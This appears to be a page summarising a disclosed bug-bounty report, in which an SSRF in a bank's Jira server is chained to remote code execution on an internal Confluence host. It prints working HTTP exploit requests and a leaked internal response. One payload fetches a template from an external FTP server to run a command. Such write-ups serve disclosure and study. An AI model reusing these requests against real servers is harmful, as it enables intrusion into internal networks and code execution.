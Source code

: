 # 29

[\
\#713900](https://hackerone.com/reports/713900) Unauthenticated SSRF in jira.tochka.com leading to RCE in confluence.bank24.int
-------------------------------------------------------------------------------------------------------------------------------

* Asset: QIEWI
* Weakness: Code Injection
* Bounty: $1,000

An interesting vulnerabilities chain allows RCE.

Vul1 is an SSRF trigger by the CVE-2019-8451（[SSRF in the /plugins/servlet/gadgets/makeRequest resource - CVE-2019-8451](https://jira.atlassian.com/browse/JRASERVER-69793).）

PoC: [https://jira.tochka.com:443@example.com/](https://jira.tochka.com:443@example.com/)

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int
```

Get the response about confluence.bank24.int:

```http
throw 1; < don't be evil' >{"https://jira.tochka.com:443@confluence.bank24.int":{"rc":200,"headers":{},"body":"<!DOCTYPE html>\n<html>\n<head>\n                    <title>Рабочий стол - Confluence<\/title>\n    \n        \n\n                        \n    \n                        \n    \n\n    \n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=EDGE,chrome=IE7\">\n<meta charset=\"UTF-8\">\n<meta id=\"confluence-context-path\" name=\"confluence-context-path\" content=\"\">\n<meta id=\"confluence-base-url\" name=\"confluence-base-url\" content=\"https://confluence.bank24.int\">\n\n<meta id=\"atlassian-token\" name=\"atlassian-token\" content=\"f999fa99a5663c168e72b407eecdeec3695c70d0\">\n\n\n<script type=\"text/javascript\">\n        var contextPath = '';\n<\/script>\n\n    \n\n    <meta name=\"confluence-request-time\" content=\"1571051898165\">\n        \n    \n        \n            <meta name=\"ajs-discovered-plugin-features\" content=\"$discoveredList\">\n            <meta name=\"ajs-use-keyboard-shortcuts\" content=\"true\">\n            <meta name=\"ajs-keyboardshortcut-hash\" content=\"97637bc20dfc7a1f15684630bc99897\">\n            <meta id=\"team-calendars-has-jira-link\" content=\"true\">\n            <meta name=\"ajs-team-calendars-display-time-format\" content=\"displayTimeFormat24\">\n            <meta id=\"team-calendars-display-week-number\" content=\"false\">\n            <meta
```



Vul2 is another CVE-2019-3396, case by the Widget Connector

[https://confluence.bank24.int/rest/tinymce/1/macro/preview](https://confluence.bank24.int/rest/tinymce/1/macro/preview\)) can be accessed without authentification by design,  and attacker can set up an FTP server to make the RCE:

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 322
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int/rest/tinymce/1/macro/preview&httpMethod=POST&headers=content-type%3Dapplication/json&postData={"contentId":"1","macro":{"body":"","params":{"url":"https://www.youtube.com/watch?v=y6sOtXOvchY","_template":"ftp://68.183.67.159/qwe2.txt","command":"id"},"name":"widget"}}
```

![SSRF](<../../../.gitbook/assets/image (9) (1).png>)



![RCE](<../../../.gitbook/assets/image (10).png>)



